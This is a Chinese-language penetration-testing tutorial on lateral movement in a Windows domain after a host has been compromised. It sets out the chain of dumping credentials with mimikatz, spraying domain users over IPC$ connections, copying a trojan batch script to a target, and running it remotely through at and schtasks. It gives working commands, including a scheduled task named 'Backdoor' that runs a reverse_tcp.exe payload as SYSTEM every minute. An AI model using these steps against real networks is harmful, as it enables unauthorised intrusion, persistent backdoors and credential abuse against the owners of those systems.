 # [at & schtasks & sc 横向](#toc_at-schtasks-sc)

在拿下一台内网主机后，通过本地信息搜集收集用户凭证等信息后，如何横向渗透拿下更多的主机？

使用 at&schtasks 命令，创建计划任务，在已知目标系统的用户明文密码的基础上，直接可以在远程主机上执行命令。

**获取到某域主机权限->minikatz 得到密码（明文，hash）->用到信息收集里面域用户的列表当做用户名字典->用到密码明文当做密码字典->尝试连接->创建计划任务 (at|schtasks)->执行文件可为后门或者相关命令**

### [利用流程](#toc__1)

\\1. 建立 IPC 链接到目标主机

\\2. 拷贝要执行的命令脚本到目标主机

\\3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本

\\4. 删除 IPC 链接

ps: **Windows Server 2012 以后的版本没有 at 命令，只有 schtasks 命令**

### [at（计划任务）](#toc_at)

利用过程如下：

```plain
net time \\192.168.1.131
# 查看时间
at \\192.168.1.131 10:30 cmd.exe /c "whoami > c:\result.txt"
# 结果输出到 result 下
type \\192.168.1.131\c$\result.txt
# 查看执行结果
at \\192.168.1.131 1 /delete
# 删除计划任务，1 是任务号
copy hack.bat \\192.168.1.131\c$\Windows\Temp
# 上传 bat 脚本
net time \\192.168.1.131                                                        
# 查看时间
at \\192.168.1.131 19:48 c:\Windows\Temp\hack.bat
# 创建定时任务，执行木马脚本
at \\192.168.1.131                                                              
# 查看任务列表
```

### [schtasks（计划任务）](#toc_schtasks)

操作步骤：

1.  利用已建立的 IPC 连接上传后门程序
2.  利用已建立的 IPC 连接或指定用户凭据的方式在远程主机上创建计划任务 shell

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR C:\users\pubilc\reverse_tcp.exe /RN System /F # /S 指定要连接的系统； /TN 指定计划任务的名称 # /SC 指定计划任务执行频率；  /MO 指定计划任务执行周期 # /TR 指定计划任务执行程序；  /RU 指定计划任务运行的用户权限 # /F  如果指定的任务已存在，则强制创建
```
